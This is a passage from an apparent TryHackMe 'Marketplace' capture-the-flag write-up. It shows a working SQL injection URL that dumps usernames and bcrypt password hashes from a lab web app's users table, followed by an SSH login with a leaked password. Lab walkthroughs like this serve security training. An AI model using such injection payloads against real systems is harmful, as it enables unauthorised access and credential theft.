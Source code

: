 ```
http://10.10.33.229/admin?user=0 union select 1,group_concat(id, %27:%27, username, %27:%27, password, %27:%27, isAdministrator, %27\n%27),1,1 from marketplace.users -- -

User 1
User 1:system:$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW:0 ,2:michael:$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q:1 ,3:jake:$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG:1 ,4:blah:$2b$10$N1hgLQZf0CDJt/wrArsn3.7t30yyV9tDVsiHzAaxKme2WSEu3.XB.:0
ID: 1
Is administrator: true 
```

The items table just shows us the items we already had access to.  The Users table gives us hashed passwords for each user, which would be valuable, but the messages table straight up gives us a password.  Since the message was sent to User 3, we can assume that this is Jake's password.  Let's try to SSH.

```
┌──(kali㉿kali)-[~/tryhackme/marketplace]
└─$ ssh jake@10.10.33.229                                                                                                                                                                                                                                                                                               1 ⨯
The authenticity of host '10.10.33.229 (10.10.33.229)' can't be established.
ED25519 key fingerprint is SHA256:Rl4+lAmQWEhSKHNbPY/BoNdG16/4xcmIXNIlSrBasm0.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.33.229' (ED25519) to the list of known hosts.
jake@10.10.33.229's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Dec 28 19:17:35 UTC 2021

  System load:  0.15               Users logged in:                0
  Usage of /:   87.1% of 14.70GB   IP address for eth0:            10.10.33.229
  Memory usage: 31%                IP address for docker0:         172.17.0.1
  Swap usage:   0%                 IP address for br-636b40a4e2d6: 172.18.0.1
  Processes:    102

  => / is using 87.1% of 14.70GB


20 packages can be updated.
0 updates are security updates.


jake@the-marketplace:~$
```
